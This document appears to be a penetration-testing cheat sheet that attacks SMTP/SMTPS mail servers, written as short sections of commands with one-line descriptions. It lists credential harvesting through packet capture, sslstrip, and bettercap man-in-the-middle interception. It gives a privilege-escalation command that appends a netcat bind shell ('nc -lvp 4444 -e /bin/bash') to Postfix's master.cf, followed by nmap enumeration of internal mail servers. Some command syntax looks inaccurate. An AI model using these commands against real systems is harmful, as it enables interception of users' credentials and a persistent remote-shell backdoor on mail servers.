 ## Credential Harvesting

### Packet Capture
- **Tool:** [[Wireshark]]
    ```bash
    wireshark -i <interface> -f "tcp port 25"
    
    sslstrip -l 587
    ```
- **Description:** Capture traffic and extract plaintext credentials (if STARTTLS is not used).

### Man-in-the-Middle (MITM) Attack
- **Tool:** [[BetterCap Cheat Sheet]]
    ```bash
    bettercap -T <target_ip> --proxy --proxy-https --proxy-smtp
    ```
- **Description:** Perform a MITM attack to intercept credentials sent over SMTPS, exploiting weak SSL/TLS configurations.

### SSL Strip Attack
- **Tool:** [[BetterCap Cheat Sheet]], [[SSLStrip Cheat Sheet]]
    ```bash
    bettercap -iface <interface> -T <target_ip> --proxy
    
    sslstrip -l 587
    ```
- **Description:** Stripping SSL from connections in a man-in-the-middle attack, forcing clients to connect over unencrypted channels.

## Privilege Escalation

### Exploiting Misconfigured SMTP Permissions
- **Tool:** [[Custom Scripts]]
    ```bash
    echo 'nc -lvp 4444 -e /bin/bash' >> /etc/postfix/master.cf
    ```
- **Description:** Modifies SMTP configuration files or scripts to escalate privileges on the server.

## Internal Reconnaissance

### Identifying Internal Mail Servers
- **Tool:** [[Nmap]]
    ```bash
    nmap <internal_ip_range> -p 25,587 -sV --script=smtp-commands
    ```
- **Description:** Scans the internal network to identify and enumerate SMTP servers and their configurations.

